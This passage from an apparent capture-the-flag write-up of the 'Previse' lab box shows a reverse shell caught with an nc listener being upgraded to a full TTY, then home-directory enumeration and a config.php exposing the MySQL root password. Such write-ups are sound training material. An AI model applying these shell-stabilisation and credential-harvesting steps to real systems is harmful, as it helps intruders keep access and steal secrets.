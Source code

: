     www-data@previse:/var/www.md$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@previse:/var/www.md$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@previse:/var/www.md$ 



Now I have up arrow for history and tab completion, and Ctrl-C won't
kill the shell.

## Shell as m4lwhere

### Enumeration

#### Homedirs

There's only one homedir, and it does have `user.txt`:



    www-data@previse:/home/m4lwhere$ ls -la 
    total 52
    drwxr-xr-x 5 m4lwhere m4lwhere 4096 Jun 18 01:18 .
    drwxr-xr-x 3 root     root     4096 May 25 14:59 ..
    lrwxrwxrwx 1 root     root        9 Jun  6 13:04 .bash_history -> /dev/null
    -rw-r--r-- 1 m4lwhere m4lwhere  220 Apr  4  2018 .bash_logout
    -rw-r--r-- 1 m4lwhere m4lwhere 3771 Apr  4  2018 .bashrc
    drwx------ 2 m4lwhere m4lwhere 4096 May 25 15:25 .cache
    drwxr-x--- 3 m4lwhere m4lwhere 4096 Jun 12 10:09 .config
    drwx------ 4 m4lwhere m4lwhere 4096 Jun 12 10:10 .gnupg
    -rw-r--r-- 1 m4lwhere m4lwhere  807 Apr  4  2018 .profile
    -rw-r--r-- 1 m4lwhere m4lwhere   75 May 31 19:19 .selected_editor
    -rw------- 1 m4lwhere m4lwhere 7425 Jun 18 01:18 .viminfo
    -rw-r--r-- 1 m4lwhere m4lwhere   75 Jun 18 01:18 .vimrc
    -r-------- 1 m4lwhere m4lwhere   33 May 31 19:33 user.txt



I can't read it yet, or anything else of use in here.

#### DB

The status page did mention MySQL. I'll check out the web directory.
There's a `config.php`:



    <?php

    function connectDB(){
        $host = 'localhost';
        $user = 'root';
        $passwd = 'mySQL_p@ssw0rd!:)';
        $db = 'previse';
        $mycon = new mysqli($host, $user, $passwd, $db);
        return $mycon;
    }
